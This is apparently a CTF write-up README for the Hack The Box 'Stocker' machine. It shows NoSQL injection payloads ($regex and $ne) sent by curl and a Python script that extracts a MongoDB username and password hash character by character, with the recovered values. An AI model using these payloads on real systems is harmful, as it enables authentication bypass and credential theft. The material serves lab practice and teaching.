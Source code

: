 # Hack The Box. Machines. Stocker

Machine write-up: https://7rocky.github.io/en/htb/stocker

### `nosqli_regex.py`

This script is used to extract fields from a NoSQL database (MongoDB) using RegEx.

When solving the machine, find a NoSQL injection vulnerability. Using the following procedure, we can find which characters are correct or not:

```console
$ curl dev.stocker.htb/login -d '{"username":{"$regex":"^a.*"},"password":{"$ne":"bar"}}' -H 'Content-Type: application/json'  
Found. Redirecting to /stock

$ curl dev.stocker.htb/login -d '{"username":{"$regex":"^b.*"},"password":{"$ne":"bar"}}' -H 'Content-Type: application/json'
Found. Redirecting to /login?error=login-error

$ curl dev.stocker.htb/login -d '{"username":{"$regex":"^c.*"},"password":{"$ne":"bar"}}' -H 'Content-Type: application/json'
Found. Redirecting to /login?error=login-error
```

So, if the response contains `/stock`, the tested character is correct. In the above example we see that `username` starts with `a`. This is the function that will try each character, which returns only `True` or `False`:

```python
def try_data(data) -> bool:
    r = requests.post(
        'http://10.10.11.196/login',
        json=data,
        headers={'Host': 'dev.stocker.htb'},
        allow_redirects=False
    )

    return '/stock' in r.text
```

Then we define another function to iterate though all characters and move on to the next position with a character is found correct:

```python
def find_value(name: str, try_function):
    prog = log.progress(name)
    value = ''
    found = True

    while found:
        found = False

        for c in string.digits + string.ascii_letters:
            if try_function(value + c):
                value += c
                prog.status(value)
                found = True
                break

    prog.success(value)
```

Notice that characters are send in a normal format. Luckily, this works because the extracted values do not contain especial characters. If that had been the case, we could have encoded the characters in hex (i.e, `\x41` for `A`).

Since we are interested in fields `username` and `password`, we will call `find_value` twice, with two different (but similar) functions (to avoid repetitive code):

```python
def try_username(u: str) -> bool:
    return try_data({'username': {'$regex': f'^{u}.*'}, 'password': {'$ne': 1}})


def try_password(p: str) -> bool:
    return try_data({'username': {'$ne': 1}, 'password': {'$regex': f'^{p}.*'}})


def main():
    find_value('Username', try_username)
    find_value('Password', try_password)
```

Now we can try the script and see the extracted values:

```console
$ python3 nosqli_regex.py
[+] Username: angoose
[+] Password: b3e795719e2a644f69838a593dd159ac
```
